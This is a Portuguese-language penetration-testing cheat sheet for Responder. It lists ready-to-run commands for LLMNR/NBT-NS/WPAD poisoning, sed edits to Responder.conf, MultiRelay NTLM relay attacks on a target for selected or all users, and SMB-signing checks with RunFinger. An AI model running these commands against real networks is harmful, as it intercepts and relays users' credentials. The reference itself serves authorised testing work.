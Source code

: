 # responder

% responder, LLMNR, NBT-NS, Poisoning, man in the middle

## iniciar responder
#plateform/linux #target/remote #cat/ATTACK/MITM 
```
responder –I eth0
```

## iniciar responder - modo de análise (sem envenenamento)
#plateform/linux #target/remote #cat/RECON 
```
responder –I eth0 -A
```

## iniciar responder com um arquivo wpad
#plateform/linux #target/remote #cat/ATTACK/MITM 
```
responder -I eth0 --wpad
```

## responder utilizando http ativado
#plateform/linux #target/local #cat/UTILS
```
sed -i 's/HTTP = Off/HTTP = On/g' /opt/tools/Responder/Responder.conf && cat /opt/tools/Responder/Responder.conf | grep --color=never 'HTTP ='
```

## responder utilizando http desativado
#plateform/linux #target/local #cat/UTILS
```
sed -i 's/HTTP = On/HTTP = Off/g' /opt/tools/Responder/Responder.conf && cat /opt/tools/Responder/Responder.conf | grep --color=never 'HTTP ='
```

## responder utilizando smb ativado
#plateform/linux #target/local #cat/UTILS
```
sed -i 's/SMB = Off/SMB = On/g' /opt/tools/Responder/Responder.conf && cat /opt/tools/Responder/Responder.conf | grep --color=never 'SMB ='
```

## responder utilizado smb desativado
#plateform/linux #target/local #cat/UTILS
```
sed -i 's/SMB = On/SMB = Off/g' /opt/tools/Responder/Responder.conf && cat /opt/tools/Responder/Responder.conf | grep --color=never 'SMB ='
```

## multirelay ataque - usuario filtrado (antes desative HTTP e SMB no arquivo Responder.conf)
#plateform/linux #target/serve #cat/ATTACK/MITM 
```
multirelay -t <ip> -u <user1> <user2>
```

## multirelay ataque - todos usuários (antes desative HTTP e SMB no arquivo Responder.conf)
#plateform/linux #target/serve #cat/ATTACK/MITM 
```
multirelay -t <ip> -u ALL
```

## runfinger - Utilidade relacionada ao responder que irá consultar um único endereço IP ou uma sub-rede IP e revelará se um alvo requer assinatura SMB ou não.
## runfinger - Responder-related utility which will finger a single IP address or an IP subnet and will reveal if a target requires SMB Signing or not.
#plateform/linux #target/remote #cat/RECON 
```
runfinger -i <network_range>
```
